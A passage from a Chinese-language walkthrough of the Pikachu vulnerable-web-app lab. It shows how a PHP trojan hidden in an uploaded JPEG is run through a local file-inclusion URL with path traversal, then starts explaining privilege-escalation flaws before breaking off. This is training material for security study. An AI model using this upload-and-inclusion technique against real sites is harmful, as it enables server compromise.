 ```
uploads/2023/08/16/38476764dcd1bd7cf51012008763.jpeg
```

虽然我们绕过`getimagesize()`，成功上传图片，但只访问图片里面的`php`代码是执行不了的

需要通过文件包含路径去访问木马文件

```
http://192.168.80.139/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/2023/08/16/38476764dcd1bd7cf51012008763.jpeg&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```



![image-20230816214220469](./Pikachu%E9%9D%B6%E5%9C%BA.assets/image-20230816214220469.png)

# 9、Over Permision

如果使用A用户的权限去操作B用户的数据，A的权限小于B的权限，如果能够成功操作，则称之为越权操作。                    越权漏洞形成的原因是后台使用了 不合理的权限校验规则导致的。                

一般越权漏洞容易出现在权限页面（需要登录的页面）增、删、改、查的的地方，当用户对权限页面内的信息进行这些操作时，后台需要对当前用户的权限进行校验，看其是否具备操作的权限，从而给出响应，而如果校验的规则过于简单则容易出现越权漏洞。                

  因此，在在权限管理中应该遵守：
